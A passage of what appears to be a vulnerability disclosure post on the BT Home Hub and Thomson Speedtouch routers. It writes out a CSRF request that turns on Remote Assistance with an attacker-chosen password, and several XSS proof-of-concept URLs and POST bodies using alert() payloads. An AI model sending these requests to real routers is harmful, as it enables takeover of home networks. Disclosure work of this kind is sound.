     _For the rest of this post we are listing all vulnerabilities that were found in the BT Home Hub router._

    ### Vulnerability #1: System-wide CSRF

    The BT Home Hub is vulnerable to CSRF by design. That means that absolutely ANY request can be forged by an attacker. This includes administrative requests. The only requirement for these attacks to work would be to predict the admin password (many users never change the default admin password), or combine it with a authentication bypass bug like the one we found (more on this later).

    As an intruder, you would typically target admin requests that would allow you to compromise the Home Hub. For instance, the following is the request that enables Remote Assistance with a password equals to _PASSW0RD_ (username is **tech**).

    POST /cgi/b/ras/?ce=1&be=0&l0=-1&l1=-1 HTTP/1.1

    0=31&1=&30=PASSW0RD

    _This issue has also been successfully tested on a Thomson Speedtouch 780 (firmware version 6.1.4.3), which is shipped by Bethere in the UK._

    ### Vulnerability #2: Several non-persistent XSS

    There are a few non-persistent XSS. None of them require the victim to be authenticated with the Home Hub for the scripting code (payload) to run. Why is there some functionality/pages available on the web interface without authenticating? Well, don't ask me! Ask BT or Thomson. Several GET parameters are affected:

* Through the `name` parameter (already published on [BID 16839](http://www.securityfocus.com/bid/16839/exploit)):
    http://192.168.1.254/cgi/b/intfs/_intf_/ov/?ce=1&be=0&l0=3&l1=1&name=<script>alert('XSS')</script>
* Through the `url` parameter. This one is a good one because there are not restrictions on the length of the payload or type of characters that can be injected. Plus, it works even if the victim is not authenticated (again, the vulnerable script is available without needing to authenticate)
    http://192.168.1.254/cgi/b/ic/connect/?nm=1&client=192.168.1.64&server=198.18.1.2&event=DNSSpoofed&url="><script>alert('XSS')</script><a%20b="
    http://192.168.1.254/cgi/b/ic/connect/?nm=1&client=&server=&event=DNSSpoofed&url="><script>alert('XSS')</script><a%20b="
    http://192.168.1.254/cgi/b/ic/connect/?url="><script>alert('XSS')</script><a%20b=

    _The last PoC URL has also been successfully tested on a Thomson Speedtouch 780 firmware version 6.1.4.3), which is shipped by Bethere in the UK._

    ### Vulnerability #3: Several persistent XSS

    Persistent XSS on Configuration / Application Sharing / Add new Game or App:

    http://192.168.1.254/cgi/b/games/newserv/?ce=1&be=1&l0=4&l1=5&tid=CREATE_GAME

    A request which takes advantage of this vulnerability may look like the following::

    POST /cgi/b/games/newserv/?ce=1&be=1&l0=4&l1=5&tid=CREATE_GAME HTTP/1.1

    0=10&1=&30=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscrip&33=0&32=ABC+%28Another+Bittorent+Client%29

    On the other hand, there is a persistent XSS on the logs page by attempting to authenticate (with the web server) using a malformed username:
